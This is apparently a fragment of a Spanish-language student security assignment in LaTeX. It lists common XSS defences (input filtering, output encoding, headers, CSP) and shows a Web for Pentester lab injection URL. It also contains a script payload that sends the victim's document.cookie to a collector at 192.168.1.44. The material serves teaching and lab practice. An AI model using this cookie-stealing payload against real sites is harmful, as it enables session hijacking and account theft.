 \documentclass[12pt,a4paper,oneside,onecolumn]{article}
\begin{document}
\begin{enumerate}[a)]
    \begin{lstlisting}[language = xml]
<script>img = new Image(); img.src = "http://192.168.1.44/a.php?"+document.cookie;</script>
    \end{lstlisting}    
    
    \section{}
    Algunos de las medidas m\'as usadas para evitar el XSS son:
    \begin{enumerate}[a)]
        \item
        \underline{Aplicar Filtros en los inputs que llegan.}    
        \item
        \underline{Encodificando el output.} Que esto ya depender\'ia de utilizar bien los lenguajes html, JS, CSS y su combinaci\'on. 
        \item
        \underline{Utilizando los headers adecuados.} Estos son los del tipo Content-Type o X-Content-Type-Options
         \item
        \underline{Definiendo un Content Security Policy(CSP)}. Con esta restringes mediante normas para que s\'olo se usen aquellas que vaya a usar tu p\'agina.
    \end{enumerate}
    
    
        
    \end{enumerate}
    \section{}
    Ejemplo n\'umero 9 con Web for Pentester para ejecutar un alert:
     \begin{figure}[!h]
		\centering
		\includegraphics[scale=0.6]{xss9.png}
		\caption{}
		\label{fig:1}
	\end{figure}
	\newline
    Escapamos con las comillas dobles e introducimos el script que queramos(en este caso alert para probar).
    \begin{lstlisting}
    http://192.168.56.103/xss/example8.php/%22%3E%3Cscript%3Ealert(%22He%20entrado%22)%3C/script%3E
    \end{lstlisting}
    
\end{document}
